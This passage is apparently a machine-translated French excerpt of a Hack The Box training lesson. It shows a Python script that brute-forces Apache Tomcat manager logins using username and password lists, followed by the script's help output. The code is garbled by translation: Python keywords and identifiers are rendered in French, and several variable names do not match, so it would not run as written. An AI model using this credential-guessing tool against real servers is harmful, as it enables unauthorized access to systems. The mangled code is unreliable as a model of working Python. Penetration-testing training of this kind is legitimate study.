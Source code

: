 ```
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Fichiers de mots de passe")

args = analyseur.parse_args()

url = args.url
uri = args.chemin
fichiers_utilisateurs = args.nomsutilisateurs
passwords_file = args.passwords

nouvelle_url = url + uri
f_users = open(fichier_utilisateurs, "rb")
f_pass = open(passwords_file, "rb")
noms d'utilisateur = [x.strip() pour x dans f_users]
mots de passe = [x.strip() pour x dans f_pass]

cprint("\n[+] Attaque....", "rouge", attrs = ['gras'])

pour vous dans les noms d'utilisateur :
     pour p dans les mots de passe :
         r = demandes.get(nouvelle_url,auth = (u, p))

         si r.status_code == 200 :
             cprint("\n[+] Succès !!", "vert", attrs = ['gras'])
             cprint("[+] Nom d'utilisateur : {}\n[+] Mot de passe : {}".format(u,p), "vert", attrs = ['gras'])
             casser
     si r.status_code == 200 :
         casser

si r.status_code != 200 :
     cprint("\n[+] Échec !!", "rouge", attrs = ['gras'])
     cprint("[+] Impossible de trouver les crédits :( ", "red", attrs = ['bold'])
#print r.status_code

```

C'est un script très simple qui prend quelques arguments. Nous pouvons exécuter le script avec `-h` pour voir ce dont il a besoin pour s'exécuter.

```
dsgsec@htb[/htb]$ python3 mgr_brute.py -h

utilisation : mgr_brute.py [-h] -U URL -P CHEMIN -u NOM D'UTILISATEUR -p MOT DE PASSE

Bruteforcing des informations d'identification du gestionnaire Tomcat ou du gestionnaire d'hôte

arguments facultatifs :
   -h, --help affiche ce message d'aide et quitte
   -U URL, --url URL URL vers la page Tomcat
   -P PATH, --path PATH gestionnaire ou URI du gestionnaire d'hôte
   -u NOMS D'UTILISATEUR, --usernames NOMS D'UTILISATEUR
                         Fichier des utilisateurs
   -p MOTS DE PASSE, --passwords MOTS DE PASSE
                         Fichiers de mots de passe

```
